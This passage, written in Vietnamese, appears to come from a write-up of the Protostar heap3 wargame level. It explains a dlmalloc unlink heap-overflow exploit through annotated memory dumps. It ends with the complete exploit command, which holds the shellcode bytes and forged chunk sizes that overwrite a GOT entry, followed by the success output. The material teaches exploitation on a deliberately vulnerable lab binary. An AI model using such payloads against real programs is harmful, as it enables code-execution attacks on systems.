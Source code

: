 Khối liền sau dù không được `unlink` nhưng `prev_size` của khối này vẫn được cập nhật. Giá trị được cập nhật chính là giá trị `size` mới đã tính phía trên, với bit cuối được đặt về 0.
Giá trị cụ thể là `0xfffffff8`.

<pre class="memory">
0x804c000:      0x00000000      0x00000029      0x00000041      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      0x42424242      0x42424242      0x048864b8      0xc3d0ff08
0x804c040:      <span style="color:springgreen">0x0804b11c</span>      0x43434343      0x43434343      <span style="color:aqua">0xfffffff8</span>
0x804c050:      0xfffffffc      0xfffffffc      <span style="color:aqua">0xfffffff9</span>      <span style="color:orangered">0x0804b194</span>
0x804c060:      <span style="color:orangered">0x0804b194</span>      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
...
0x804b11c <_GLOBAL_OFFSET_TABLE_+52>:   0x08048766      0x08048776      0x08048786      <span style="color:springgreen">0x0804c038</span>
0x804b12c <_GLOBAL_OFFSET_TABLE_+68>:   0x080487a6      0x00000000      0x00000000      0x00000000
</pre>

Khối đang xét trở thành một khối trống nên 2 dword sau meta data của nó cũng được thay đổi cho phù hợp như <span style="color:orangered">highlight</span>.
Giá trị này vẫn `0x0804b194` như trong ví dụ trước. Có vẻ đó là head của doubly linked list dùng để lưu những vị trí đã được free trên heap.

Trước khi chạm đến hàm `winner`, ta sẽ kiểm tra nốt bộ nhớ sau 2 lần `free` cho các khối thứ 1 và 2.

<pre class="memory">
0x804c000:      0x00000000      0x00000029      <span style="color:orangered">0x0804c028</span>      0x00000000
0x804c010:      0x00000000      0x00000000      0x00000000      0x00000000
0x804c020:      0x00000000      0x00000000      0x00000000      0x00000029
0x804c030:      <span style="color:orangered">0x00000000</span>      0x42424242      0x048864b8      0xc3d0ff08
0x804c040:      0x0804b11c      0x43434343      0x43434343      0xfffffff8
0x804c050:      0xfffffffc      0xfffffffc      0xfffffff9      0x0804b194
0x804c060:      0x0804b194      0x00000000      0x00000000      0x00000000
0x804c070:      0x00000000      0x00000000      0x00000000      0x00000f89
</pre>

Thay đổi là có nhưng không làm ảnh hưởng đến mục đích.
Sau đây là kết quả của chương trình.

```bash
heap3 $(python -c 'print "A"') $(python -c 'print "BBBB" * 2 + "\xb8\x64\x88\x04\x08\xff\xd0\xc3" + "CCCC" * 4 + "\xfc\xff\xff\xff" + "\xfc\xff\xff\xff"') $(python -c 'print "\xff\xff\xff\xff" + "\x1c\xb1\x04\x08" + "\x38\xc0\x04\x08"')
```

<pre class="memory">
that wasn't too bad now, was it? @ 1688032259
</pre>
